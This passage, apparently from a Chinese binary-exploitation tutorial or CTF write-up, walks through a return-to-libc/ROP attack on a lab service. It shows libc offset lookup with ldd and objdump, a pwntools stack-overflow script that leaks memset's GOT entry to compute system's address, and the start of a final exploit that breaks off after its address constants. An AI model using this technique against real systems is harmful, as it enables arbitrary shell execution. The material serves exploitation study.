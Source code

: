 查找system和memset的offset
```
ldd leak
	linux-vdso.so.1 =>  (0x00007ffd065f6000)
	libc.so.6 => /lib64/libc.so.6 (0x00007f7802897000)
	/lib64/ld-linux-x86-64.so.2 (0x00007f7802c65000)
```
`objdump -d /lib64/libc.so.6 |less`或者`readelf -s /lib64/libc.so.6 |less`
```
0000000000043270 <__libc_system>:
   43279:	74 15                	je     43290 <__libc_system+0x20>
   43283:	75 26                	jne    432ab <__libc_system+0x3b>
000000000008f8c0 <memset>:
   8f8c7:	48 8d 05 c2 ac 00 00 	lea    0xacc2(%rip),%rax        # 9a590 <__memset_x86_64>
   8f8d8:	74 26                	je     8f900 <memset+0x40>

```
打印出system的地址
```python
from pwn import *

write_plt  = 0x400540            # address of write@plt
memset_got = 0x601030            # memset()'s GOT entry
pop3ret    = 0x4006a1            # gadget to pop rdi; pop rsi; pop rdx; ret

memset_off = 0x08f8c0            # memset()'s offset in libc.so.6
system_off = 0x043270            # system()'s offset in libc.so.6

payload ="A"*168 + p64(pop3ret)+p64(1)+p64(memset_got)+p64(8)+p64(write_plt)
r = remote("127.0.0.1",4000)
raw_input('#')
print r.recvuntil('input: ')
r.sendline(payload)
print (r.recvline())
print '===='
memset=u64(r.recv(8))
print hex(memset)

print (hex(memset-memset_off+system_off))
```
之后我们使用read@plt来覆盖memset()的 GOT值,使用read@plt写入 “sh”,将RDI指针指向“sh”,并调用system函数


#### c语言中的read和write
```
#include<stdio.h>
#define MAXSIZE 10
int main(void)
{
 char c;
 char buf[MAXSIZE];
 int n;
 while((n = read(0,buf,MAXSIZE)) > 0)
  write(1,buf,n);//
}
```
最终的exp
```python
from pwn import *

read_plt   = 0x400580            # address of read@plt
write_plt  = 0x400540            # address of write@plt
memset_plt = 0x400570
memset_got = 0x601030            # memset()'s GOT entry
pop3ret    = 0x4006a1            # gadget to pop rdi; pop rsi; pop rdx; ret

```